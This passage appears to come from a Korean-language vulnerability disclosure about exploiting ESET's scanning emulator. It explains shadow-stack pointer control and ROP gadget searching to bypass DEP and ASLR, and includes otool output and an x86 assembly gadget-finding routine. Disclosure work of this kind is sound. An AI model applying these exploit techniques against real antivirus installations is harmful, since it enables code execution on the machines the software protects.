 {% endhighlight %}

우리는 이제 스택 베이스 주소로부터의 오프셋을 계산해냄으로써 섀도우 스택 포인터가 임의의 메모리 주소를 가리키도록 할 수 있다. 만약 섀도우 스택 포인터가 .text 영역을 가리키게 한다면, 메모리 주소 공간을 스캔해서 gadget들을 찾아 DEP를 우회할 수 있다. 

맥OS의 경우, gadget을 통해 실행 흐름을 쉘코드로 변경해주는만으로 충분하다. 이것은 ESET가 MH_NO_HEAP_EXECUTION 플래그를 Mach 헤더에 설정하지 않음으로써 DEP를 비활성화시키기 때문이다. 윈도우와 리눅스는 완전한 ROP 체인이 필요하다. 

{% highlight bash %}
$ otool -hv /Applications/ESET\ Cyber\ Security\ Pro.app/Contents/MacOS/esets_daemon 
/Applications/ESET Cyber Security Pro.app/Contents/MacOS/esets_daemon:
Mach header
      magic cputype cpusubtype  caps    filetype ncmds sizeofcmds      flags
   MH_MAGIC    I386        ALL  0x00     EXECUTE    27       3184   NOUNDEFS DYLDLINK TWOLEVEL WEAK_DEFINES BINDS_TO_WEAK PIE
{% endhighlight %}

만약 복잡한 gadget 체인 때문에 사이클이 더 필요하다면, 첫단계 gadget 체인을 통해 사이클 카운트를 초기화하여 익스플로잇 완성을 위한 무제한의 시간을 얻을 수 있다. 


{% highlight nasm %}
findgadget:
    ;
    ; Search for simple gadget at [ESP] using stack operations.
    ;
    ; EDI       Current search location for gadget.
    ; EAX       Last DWORD read from [EDI].
    ;  BL       Byte from [EDI-1].
    ; ECX       Byte index into current DWORD
    ; EBP       Constant Mask
    ; EDX       Constant 4
    ;
    ; This loop uses a modified port of Algorithm 6-2 (Find leftmost 0-byte)
    ; from "Hackers Delight" by Henry Warren, ISBN 0-201-91465-4. The
    ; .nextdword loop is where we burn all our cycles, so optimizing for the
    ; common case doubles our search space.
    ;
    ReqOpcode   equ 0xFF    ; register indirect branch
    ReqOperands equ 0x13112321
    xor     ecx, ecx        ; initialize loop counter
    mov     ebp, 0x7F7F7F7F ; initialize mask
    mov     edx, 4          ; constant
    pop     ebx             ; initialize BL
    bswap   ebx             ; rearrange so high byte is in bl
    dec     edi             ; adjust for start of search
   .nextdword:
    pop     eax             ; fetch another dword to examine
    bswap   eax             ; reorder bytes
    not     eax             ; invert bits because this code searches for 0x00
    mov     ecx, eax        ; ecx is a copy of dword to scan we can modify
    and     ecx, ebp        ; y & 0x7f7f7f7f
    add     ecx, ebp        ; + 0x7f7f7f7f
    or      ecx, eax        ; y | x
    or      ecx, ebp        ; y | mask
    not     eax             ; restore bits, we need them in either case
    xor     ecx, byte ~0    ; ~y; xor instead of not because ZF
    jnz     .matchfound     ; was there a 0xFF?
   .nomatch:
    sub     edi, edx        ; adjust current search pointer
    mov     bl, al          ; save byte for operand match
    jmp     short .nextdword; next dword
{% endhighlight %}
Figure 5. ASLR/DEP 우회 및 마이너 버전에서의 변화 허용을 위한 call [reg] gadget을 찾는다. 에뮬레이터에서 리턴하는 경우, [ECX]는 스캔이 되고 있는 파일의 시작 지점을 가리키고 있을 것이다. 이 의미는 스캔중인 악성코드의 코드를 실제 CPU에서 재실행한다는 뜻이다.
